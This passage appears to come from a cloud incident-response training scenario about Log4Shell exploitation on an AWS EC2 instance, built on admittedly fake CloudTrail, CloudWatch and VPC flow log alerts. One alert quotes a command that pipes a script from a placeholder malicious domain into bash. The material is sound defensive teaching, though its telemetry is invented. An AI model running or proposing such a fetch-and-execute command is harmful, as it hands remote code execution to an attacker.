 4. **Execution of Unfamiliar Processes (AWS CloudWatch Logs)**  
   Type: CloudWatch Logs Alert  
   Source: `EC2-App-Prod-01`  
   Description: CloudWatch logs report the execution of unfamiliar processes (e.g., `/bin/bash -c "curl http://malicious-domain.com/payload.sh | bash"`), indicating possible exploitation and remote code execution.

<div class="neon-line"></div>

### **Objective:**
Identify if `CVE-2021-44228 (Log4Shell)` has been exploited, assess the scope of the compromise, and take containment actions. Focus on tracing the attacker’s actions to understand the extent of their access and prevent further exploitation.

<div class="neon-line"></div>

### **Fake Telemetry Details and Logs**

#### **Alert 1: Unusual API Calls Detected (CloudTrail)**

**Telemetry Data (CloudTrail Logs):**
- **Source Instance**: `EC2-App-Prod-01`
- **API Calls Detected**:
  - `CreateSecurityGroup` named `temp-sec-group` with open SSH access from 0.0.0.0/0.
  - `AuthorizeSecurityGroupIngress` to open port 22 on `temp-sec-group`.
  - `DescribeInstances` listing all EC2 instances in the environment.
- **Event Timeline**:
  - **9:00 PM** - `CreateSecurityGroup` request by `EC2-App-Prod-01`
  - **9:05 PM** - `AuthorizeSecurityGroupIngress` on `temp-sec-group`
  - **9:10 PM** - `DescribeInstances` API call

**Analysis:**  
These unauthorized API calls indicate the attacker is attempting to gain unrestricted SSH access, likely for persistent command-and-control access.

<div class="neon-line"></div>

#### **Alert 2: Outbound Traffic to Suspicious IPs (VPC Flow Logs)**

**Telemetry Data (VPC Flow Logs):**
- **Source Instance**: `EC2-App-Prod-01`
- **Destination IPs**: 198.51.100.50, 203.0.113.25 (known malicious IPs)
- **Traffic Details**:
  - **Port**: 8080, 4444 (ports often used for callbacks and reverse shells)
  - **Event Timeline**:
    - **9:15 PM** - Outbound connection attempt to 198.51.100.50:8080
    - **9:20 PM** - Outbound connection attempt to 203.0.113.25:4444

**Analysis:**  
These outbound connections to known malicious IPs suggest the attacker might have deployed malware that is attempting to communicate with a command-and-control (C2) server.

<div class="neon-line"></div>
